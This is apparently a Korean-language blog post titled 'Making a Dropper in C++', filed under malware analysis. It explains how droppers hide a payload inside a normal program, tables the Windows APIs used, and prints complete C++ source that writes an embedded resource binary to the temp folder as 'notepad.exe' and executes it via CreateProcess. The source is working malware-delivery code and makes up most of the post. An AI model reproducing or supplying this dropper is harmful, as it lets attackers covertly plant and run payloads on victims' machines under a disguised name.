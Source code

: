```yaml
---
title: C++로 Dropper 만들기
categories: 
 - Malware Analysis
 - Malware
tags: 
 - Dropper
---
```


## Dropper

Dropper는 정상 프로그램에 숨어있다가 정상 프로그램이 실행되면서 내장되어 있던 악성코드가 꺼내지고 정상 프로그램이 악성코드를 실행 시킨다.

### 주요 API

|API|설명|
|:---:|:---|
|GetTempPath|임시 파일로 지정된 디렉토리의 경로를 검색|
|FindResource|지정된 모듈에서 지정된 유형 및 이름을 사용하여 자원의 위치를 찾음|
|SizeofResource|자원의 크기(Byte)를 검색|
|LoadResource|메모리의 지정된 리소스의 핸들을 검색|
|LockResource|메모리에 있는 지정된 리소스에 대한 포인터 검색|
|CreateFile|파일이나 I/O장치를 만들거나 연다|
|SetFilePointer|지정한 파일의 파일 포인터를 이동시킨다|
|WriteFile|파일이나 I/O장치에 데이터를 기록|
|CreateProcess|새 프로세스와 기본 스레드를 실행|
|MessageBox|메시지가 포함된 대화 상자를 표시|

### 실행 흐름

1. GetTempPath 함수로 임시 디렉토리의 경로를 가져옴
1. FindResource 함수로 리소스 영역에 있는 파일을 찾는다
1. SizeofResource 파일의 크기를 가져온다
1. LoadResource 파일을 로드, 핸들을 가져온다
1. LockResource 메모리에 상주에 있는 파일의 포인터를 가져온다
1. CreateFile 파일을 하나 연다
1. SetFilePointer , WriteFile 함수로 EXE파일을 CreateFile로 만든 파일에다 데이터를 쓴다
1. CreateProcess 함수로 CreateFile에서 만든 파일을 실행시킨다

### 소스 코드

```c++
# 리소스에는 악성코드가 있지만 이 코드는 notepad를 실행한다.
#include "windows.h"
#include "resource.h"

#define APP_PATH MAX_PATH+1

HINSTANCE	hInst	 = NULL;

BOOL CoverDrop();
BOOL MalwareDrop();

int APIENTRY WinMain(HINSTANCE hInstance,
                     HINSTANCE hPrevInstance,
                     LPSTR     lpCmdLine,
                     int       nCmdShow)
{
    
	hInst = hInstance;
	
	CoverDrop();

	return 0;
}

BOOL CoverDrop()
{
	WCHAR szAppFullPath[APP_PATH];
	WCHAR szTempPath[APP_PATH];
	WCHAR szSystemPath[APP_PATH];

	DWORD	dwResSize, dwByteWrite;
	HRSRC	hResource	= 0;
	HGLOBAL	hResData	= 0;
	LPVOID	lpData		= NULL;
	HANDLE	hFile		= NULL;

	// PATH ¼³Á¤
	GetTempPath(APP_PATH, szTempPath);
	//GetWindowsDirectory(szSystemPath, APP_PATH);
	wsprintf(szAppFullPath,L"%s\\notepad.exe",szTempPath);

	hResource = FindResource(hInst, MAKEINTRESOURCE(IDR_BIN1), L"BIN"); // IDR_BIN1은 리소스에 있는 파일이다. 
	dwResSize = SizeofResource(hInst, hResource);
	hResData = LoadResource(hInst, hResource);

	if (hResData != NULL && dwResSize != 0)
	{
		lpData = NULL;
		lpData = LockResource(hResData);
		hFile = CreateFile(szAppFullPath, // 파일을 생성
			GENERIC_WRITE,
			FILE_SHARE_WRITE,
			NULL,
			CREATE_ALWAYS,
			FILE_ATTRIBUTE_NORMAL,
			NULL);

		if (NULL != hFile && INVALID_HANDLE_VALUE != hFile)
		{
			SetFilePointer(hFile, 0, 0, FILE_BEGIN); //리소스 데이터를 만든 파일에 쓴다

			WriteFile(hFile,
				(LPBYTE)lpData,
				dwResSize,
				&dwByteWrite,
				NULL);

			CloseHandle(hFile);

			STARTUPINFO si={0, };
			PROCESS_INFORMATION pi;
			si.cb = sizeof(STARTUPINFO);
			si.dwFlags = 0;
			CreateProcess(NULL, szAppFullPath, NULL, NULL, NULL, NULL, NULL, NULL, &si, &pi); //리소스를 저장한 파일을 실행
		}
		else
		{
			MessageBox(NULL, L"Install Fail hFile", L"Warning", MB_OK | MB_ICONSTOP);
		}
	}
	else
	{
		MessageBox(NULL, L"Install Fail hResData", L"Warning", MB_OK | MB_ICONSTOP);
	}
	return TRUE;
}
```





